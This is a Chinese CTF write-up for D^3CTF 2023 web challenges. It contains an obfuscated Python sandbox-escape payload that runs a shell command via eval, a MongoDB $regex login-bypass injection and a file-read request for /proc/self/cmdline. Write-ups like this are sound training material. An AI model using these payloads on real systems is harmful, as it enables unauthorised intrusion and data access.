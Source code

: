 # D^3CTF 2023

> [题目地址](https://race.d3ctf.cn/contest/1)

## Web

### Escape Plan

#### 题目描述

![image-20230503112434742](image-20230503112434742.png)

#### 题目分析

一个 python 的命令执行题目，但是有黑名单过滤。

> 具体解法应是参考这篇文章：[Python 沙箱逃逸的通解探索之路 | CN-SEC 中文网](https://cn-sec.com/archives/1322842.html)

黑名单具体如下，最后是通过 `eval()` 函数进行命令执行的：

![image-20230505204602179](picture/image-20230505204602179.png)

```python
u = '𝟢𝟣𝟤𝟥𝟦𝟧𝟨𝟩𝟪𝟫'

CMD = "eval(vars(eval(list(dict(_a_aiamapaoarata_a_=()))[len([])][::len(list(dict(aa=()))[len([])])])(list(dict(b_i_n_a_s_c_i_i_=()))[len([])][::len(list(dict(aa=()))[len([])])]))[list(dict(a_2_b1_1b_a_s_e_6_4=()))[len([])][::len(list(dict(aa=()))[len([])])]](list(dict(X19pbXBvcnRfXygnb3MnKS5wb3BlbignZWNobyBIYWNrZWQ6IGBpZGAnKS5yZWFkKCkg=()))[len([])]))"

CMD = CMD.translate({ord(str(i)): u[i] for i in range(10)})
```

#### 题目复现

发现我拉取镜像失败，不能启动 Docker。

尝试更换一下 Docker 的镜像源也没用，真的纯搞心态。┭┮﹏┭┮ 黑化了。

一直都是这个问题：

![image-20230511170631209](picture/image-20230511170631209.png)

最后我直接单独 pull 这个镜像，终于进入了构建的下一步：

```bash
docker pull python:3.8-alpine
```

![image-20230511170755134](picture/image-20230511170755134.png)

> md 还要下好多东西。



### d3 cloud



### d3 node

- [源码链接](https://github.com/nerowander/d3ctf2023-web-d3node)

#### 环境搭建

```bash
git clone https://github.com/nerowander/d3ctf2023-web-d3node.git
sudo docker-compose up -d
```

等待一会就可以了。

```
curl 127.0.0.1:10000
```



#### 题目分析

登录页面 F12 发现提示 1。看起来存在 nosql 注入，我们需要绕过 waf 登录一下。

![image-20230511211433962](picture/image-20230511211433962.png)

![image-20230511211506460](picture/image-20230511211506460.png)

不是很理解这一步为什么能想到 nosql，我只能看出来接收 username 和 password 参数。

后面我用搜索引擎查了以下相关源码关键字：

```sql
Userinfo.findOne
```

![image-20230511211850317](picture/image-20230511211850317.png)

这应该是 MongoDB 数据库的查询语句，而 MongoDB 是 nosql 型也就是非关系型数据库。看到这里我懂了，看来还是对数据库的了解不够，不能够立即辨认出提示图片给的源码是 MongoDB 的查询语句。

![image-20230511212211697](picture/image-20230511212211697.png)

![image-20230511212152664](picture/image-20230511212152664.png)

很好，现在在网上寻找有关 MongoDB 注入的文章进行学习吧。

建议参看先知社区[这篇](https://xz.aliyun.com/t/9908)，完成从零到一。

```sql
{"username": {"$regex": "admin"}, "password": {"$regex": "" }}
```

登录进去发现提示 2，告诉我们存在任意文件读取漏洞。

```http
/dashboardIndex/ShowExampleFile?filename=/proc/self/cmdline
```

